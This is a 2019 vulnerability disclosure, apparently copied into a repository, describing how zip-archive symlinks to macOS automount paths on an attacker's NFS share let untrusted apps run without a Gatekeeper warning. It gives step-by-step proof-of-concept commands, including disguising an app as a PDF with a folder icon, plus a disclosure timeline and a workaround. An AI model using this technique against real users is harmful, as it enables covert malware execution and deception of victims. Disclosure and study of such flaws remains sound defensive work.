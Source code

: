 # macos_gatekeeper_bypass
 bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.
sources: https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass
https://www.sentinelone.com/blog/how-malware-bypass-macos-gatekeeper/

MacOS X GateKeeper Bypass
24 May 2019

OVERVIEW
On MacOS X version <= 10.14.5 (at time of writing) it is possible to easily bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.

Gatekeeper is a mechanism developed by Apple and included in MacOS X since 2012 that enforces code signing and verifies downloaded applications before allowing them to run.
For example, if a user donwloads an application from internet and executes it, Gatekeeper will prevent it from running without user's consens.

DETAILS
As per-design, Gatekeeper considers both external drives and network shares as safe locations and it allows any application they contain to run.
By combining this design with two legitimate features of MacOS X, it will result in the complete deceivement of the intended behaviour.

The first legit feature is automount (aka autofs) that allows a user to automatically mount a network share just by accessing a "special" path, in this case, any path beginning with "/net/".
For example
ls /net/evil-attacker.com/sharedfolder/
will make the os read the content of the 'sharedfolder' on the remote host (evil-attacker.com) using NFS.

The second legit feature is that zip archives can contain symbolic links pointing to an arbitrary location (including automount enpoints) and that the software on MacOS that is responsable to decompress zip files do not perform any check on the symlinks before creatig them.

To better understand how this exploit works, let's consider the following scenario:
An attacker crafts a zip file containing a symbolic link to an automount endpoint she/he controls (ex Documents -> /net/evil.com/Documents) and sends it to the victim.
The victim downloads the malicious archive, extracts it and follows the symlink.

Now the victim is in a location controlled by the attacker but trusted by Gatekeeper, so any attacker-controlled executable can be run without any warning. The way Finder is designed (ex hide .app extensions, hide full path from titlebar) makes this tecnique very effective and hard to spot.

The following video illustrates the concept

https://youtu.be/m74cpadIPZY

PoC
In order to reproduce this issue, follow the steps below:

create a zip file with a symlink to an automount endpoint
mkdir Documents
ln -s /net/linux-vm.local/nfs/Documents Documents/Documents
zip -ry Documents.zip Documents
create an application (.app folder) with the code you want to run
cp -r /Applications/Calculator.app PDF.app
echo -e '#!/bin/bash'"\n"'open /Applications/iTunes.app' > PDF.app/Contents/MacOS/Calculator
chmod +x PDF.app/Contents/MacOS/Calculator
rm PDF.app/Contents/Resources/AppIcon.icns
ln -s /System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/GenericFolderIcon.icns PDF.app/Contents/Resources/AppIcon.icns
create a publicily accessible NFS share and put the .app in it
ssh linux-vm.local
mkdir -p /nfs/Documents
echo '/nfs/Documents *(insecure,rw,no_root_squash,anonuid=1000,anongid=1000,async,nohide)' >> /etc/exports
service nfs-kernel-server restart
scp -r mymac.local:PDF.app /nfs/Documents/
upload the zip somewhere in internet and download it so it gets the quarantine flag used by Gatekeeper
extract the zip (if needed) and navigate it
HISTORY
The vendor has been contacted on February 22th 2019 and it's aware of this issue. This issue was supposed to be addressed, according to the vendor, on May 15th 2019 but Apple started dropping my emails.
Since Apple is aware of my 90 days disclosure deadline, I make this information public.

SOLUTION
No solution is available yet.

A possible workaround is to disable automount:

Edit /etc/auto_master as root
Comment the line beginning with '/net'
Reboot
